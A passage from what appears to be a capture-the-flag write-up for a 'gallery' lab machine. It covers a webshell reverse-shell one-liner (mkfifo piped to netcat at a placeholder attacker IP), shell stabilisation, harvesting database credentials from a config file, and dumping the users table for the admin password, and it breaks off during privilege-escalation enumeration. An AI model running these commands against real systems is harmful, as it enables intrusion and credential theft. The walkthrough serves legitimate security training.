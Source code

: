 Then on the webshell we send the command:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

![00b572fc0210c3c91fff7f93d94cc93f.png](/resources/9e941a2b11be44e09a674976c2de8b20.png)

After pressing the "Send" button, we check back to our Netcat listener for the connection from the victim machine:

![f3ad9082e9d82396e45cc0669bc39aea.png](/resources/0360cb1588b7470f85ae65250c807d9c.png)

Let's stablize the shell we just got by doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

Checking the `/var/www/html/gallery/initialize.php` file reveals some credentials:

```sh
cat /var/www/html/gallery/initialize.php
```

![ebd1aabea56e6b9c300acdb4b334bf35.png](/resources/0f801217c109476f8490ac1569b293fa.png)

The credentials for `gallery_user` seems to be for an SQL database hosted on the same machine. Let's try to access it by using the following command and enter the password when prompted:

```sh
mysql -h localhost -D gallery_db -u gallery_user -p
```

After entering the command, we will be in the MariaDB command-line interface:

![db6abf47380f7082270aca521b0d9373.png](/resources/34f6c411833b4fae8d02fbf30e10497d.png)

Let's start enumerating the database by listing the available tables using the command `show tables;`:

![ad53529d28f1fab8baec2ea8ce494c6b.png](/resources/c0fd4042cf494a2397e383bc5990c571.png)

Then dump all the information from the `users` table by using the command `select * from users;` where we will find the password for the user `admin`:

![a6de6312832fab209b64cc5b37c14b34.png](/resources/658e0c29e1c644fc8ed2daefe320a00f.png)

# Privilege Escalation

### \[-] mike\@gallery

After some enumeration, we will find a directory named "`/var/backups/mike_home_backup/`. We can use the ls command with the `-lah` flags; `l` is for long listing format which will include extra details, `a` will include hidden filenames that start with `.`, and `h` makes the output easier to read:
